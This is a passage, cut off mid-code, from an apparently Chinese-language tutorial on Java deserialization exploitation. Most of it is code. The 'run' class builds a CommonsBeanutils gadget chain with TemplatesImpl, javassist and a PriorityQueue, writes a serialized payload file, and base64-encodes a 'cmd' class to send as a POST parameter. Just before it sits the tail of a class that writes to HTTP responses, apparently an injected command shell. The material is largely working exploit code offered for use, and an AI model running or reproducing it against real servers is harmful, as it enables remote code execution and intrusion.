 ```
                response.getWriter().println("----------------------------------");
                response.getWriter().flush();
                response.getWriter().close();
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
        return true;
    }
}

```

**run类代码实现**

通过CommonsBeanutils利用链加载TD类的字节码，生成序列化数据。获取cmd类的字节码，并base64编码输出。

```
package deserialize;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.PriorityQueue;

public class run {
    public static void main(String[] args) {
        try {
            //获取字节码
            ClassPool pool = ClassPool.getDefault();
            pool.insertClassPath(new ClassClassPath(deserialize.run.class.getClass()));
            CtClass ctClass = pool.get("deserialize.TD");
            ctClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
            byte[] classBytes = ctClass.toBytecode();

            CtClass ctClass2 = pool.get("deserialize.cmd");
            byte[] classBytes2 = ctClass2.toBytecode();
            System.out.println("post请求参数wangdefu\\n" + Base64.getEncoder().encodeToString(classBytes2));

            TemplatesImpl templates = TemplatesImpl.class.newInstance();
            setField(templates, "_name", "name");
            setField(templates, "_bytecodes", new byte[][]{classBytes});
            setField(templates, "_tfactory", new TransformerFactoryImpl());
            setField(templates, "_class", null);

            BeanComparator beanComparator = new BeanComparator("outputProperties", String.CASE_INSENSITIVE_ORDER);

            PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);

            setField(priorityQueue, "queue", new Object[]{templates, templates});
            setField(priorityQueue, "size", 2);

            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./CommonsBeanutils.ser"));
```